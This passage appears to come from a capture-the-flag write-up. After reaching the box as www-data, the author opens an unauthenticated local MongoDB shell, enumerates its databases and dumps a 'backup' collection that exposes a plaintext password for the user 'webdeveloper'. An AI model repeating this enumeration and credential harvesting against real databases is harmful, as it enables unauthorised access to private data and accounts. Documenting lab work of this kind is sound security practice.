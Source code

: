 Doing a quick search on google, i discovered its the default TCP port used by MongoDB.

![image](https://user-images.githubusercontent.com/58165365/145278791-62703b86-3867-4ec3-b7db-3ae49fe09624.png)

Being the first time interacting with Mongo, i found some commands one can run at [hacktricks](https://book.hacktricks.xyz/pentesting/27017-27018-mongodb)

```bash
www-data@sky:/home/webdeveloper$ mongo
mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("a0f09137-55f0-4ab5-ba07-f119ffd1c341") }
MongoDB server version: 4.4.6
Welcome to the MongoDB shell.
For interactive help, type "help".
For more comprehensive documentation, see
        https://docs.mongodb.com/
Questions? Try the MongoDB Developer Community Forums
        https://community.mongodb.com
---
The server generated these startup warnings when booting:
        2021-12-08T18:30:45.227+00:00: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine. See http://dochub.mongodb.org/core/prodnotes-filesystem
        2021-12-08T18:30:49.152+00:00: Access control is not enabled for the database. Read and write access to data and configuration is unrestricted
---
---
        Enable MongoDB's free cloud-based monitoring service, which will then receive and display
        metrics about your deployment (disk utilization, CPU, operation statistics, etc).

        The monitoring data will be available on a MongoDB website with a unique URL accessible to you
        and anyone you share the URL with. MongoDB may use this information to make product
        improvements and to suggest MongoDB products and deployment options to you.

        To enable free monitoring, run the following command: db.enableFreeMonitoring()
        To permanently disable this reminder, run the following command: db.disableFreeMonitoring()
---
> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
> db.collection.find()
> exit
bye
Error saving history file: FileOpenFailed Unable to open() file /var/www/.dbshell: Permission denied
```

